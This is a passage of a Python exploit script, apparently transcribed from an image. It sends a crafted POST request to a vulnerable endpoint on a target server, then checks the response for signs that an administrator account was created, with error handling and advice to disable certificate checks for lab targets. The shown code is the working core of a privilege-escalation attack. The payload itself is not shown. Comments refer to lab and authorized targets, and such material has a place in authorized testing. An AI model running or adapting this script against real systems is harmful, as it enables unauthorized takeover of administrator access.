         try:
            # For lab environments with self-signed SSL certs, you might need verify=False
            # For real (authorized) targets, verify should typically be True (default)
            response = requests.post(exploit_url, headers=headers, json=payload, timeout=15, verify=True) 

            print(f"\n[RESPONSE] Status Code: {response.status_code}")
            print(f"[RESPONSE] Headers:")
            for key, value in response.headers.items():
                print(f"  {key}: {value}")
            
            print(f"[RESPONSE] Body:")
            try:
                # Attempt to parse and pretty-print if JSON
                response_json = response.json()
                print(json.dumps(response_json, indent=2))
                # Check for success indicators within the JSON response
                if 200 <= response.status_code < 300:
                    if isinstance(response_json, dict) and \
                       (response_json.get("status") == "success" or response_json.get("message", "").lower().startswith("admin created")):
                        print("\n[SUCCESS] JSON response indicates admin account may have been created!")
                    elif 200 <= response.status_code < 300: # General success status
                         print("\n[POTENTIAL SUCCESS] Request was successful (2xx). Verify manually.")
            except json.JSONDecodeError:
                # If not JSON, print as text
                print(response.text)
                if 200 <= response.status_code < 300:
                     print("\n[POTENTIAL SUCCESS] Request was successful (2xx), but response was not JSON. Verify manually.")


            if not (200 <= response.status_code < 300):
                print("\n[FAILURE] Admin creation attempt failed or did not return a success status code.")

        except requests.exceptions.SSLError as e:
            print(f"\n[ERROR] SSL Error: {e}")
            print("         If this is a lab with a self-signed certificate, try setting `verify=False` in requests.post().")
            print("         Example: response = requests.post(..., verify=False)")
        except requests.exceptions.ConnectionError as e:
            print(f"\n[ERROR] Connection Error: {e}")
            print(f"         Ensure the target URL '{TARGET_BASE_URL}' and endpoint '{VULN_ENDPOINT_PATH}' are correct and the server is reachable.")
        except requests.exceptions.RequestException as e:
            print(f"\n[ERROR] An unexpected request error occurred: {e}")
